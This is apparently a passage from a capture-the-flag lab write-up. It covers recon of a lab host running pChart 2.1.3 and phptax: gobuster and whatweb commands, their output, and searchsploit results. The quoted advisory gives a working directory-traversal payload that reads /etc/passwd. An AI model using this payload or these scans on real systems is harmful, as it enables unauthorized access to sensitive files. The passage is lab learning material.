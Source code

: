 ```
-----------------
END_TIME: Fri Nov 17 05:36:36 2023
DOWNLOADED: 4612 - FOUND: 2
```

- check html source code, find another url path: `pChart2.1.3/index.php`

```html
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```

- web

```
$ whatweb http://192.168.123.127/pChart2.1.3/examples/index.php
http://192.168.123.127/pChart2.1.3/examples/index.php [200 OK] Apache[2.2.21][mod_ssl/2.2.21], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8], IP[192.168.123.127], OpenSSL[0.9.8q], PHP[5.3.8], Script, Title[pChart 2.x - examples rendering], WebDAV[2], X-Powered-By[PHP/5.3.8]
```

- 8080 port, `$ gobuster dir -u http://192.168.123.127:8080/phptax -a "Mozilla/4.0 Mozilla4_browser" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x json,html,php,txt,xml,md -q`

```
/.html                (Status: 403) [Size: 214]
/index.php            (Status: 200) [Size: 11974]
/files                (Status: 301) [Size: 249] [--> http://192.168.123.127:8080/phptax/files/]
/data                 (Status: 301) [Size: 248] [--> http://192.168.123.127:8080/phptax/data/]
/pictures             (Status: 301) [Size: 252] [--> http://192.168.123.127:8080/phptax/pictures/]
/maps                 (Status: 301) [Size: 248] [--> http://192.168.123.127:8080/phptax/maps/]
/readme               (Status: 301) [Size: 250] [--> http://192.168.123.127:8080/phptax/readme/]
```

### exploit

#### pChart - direcotry traversal

- pChart **2.1.3**
- `$ searchsploit pChart`

```
$ searchsploit pChart
pChart 2.1.3 - Multiple Vulnerabilities                                                                                              | php/webapps/31173.txt
[1] Directory Traversal:
hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
The traversal is executed with the web server's privilege and leads to
sensitive file disclosure (passwd, siteconf.inc.php or similar),
access to source codes, hardcoded passwords or other high impact
consequences, depending on the web server's configuration.
This problem may exists in the production code if the example code was
copied into the production environment.
```
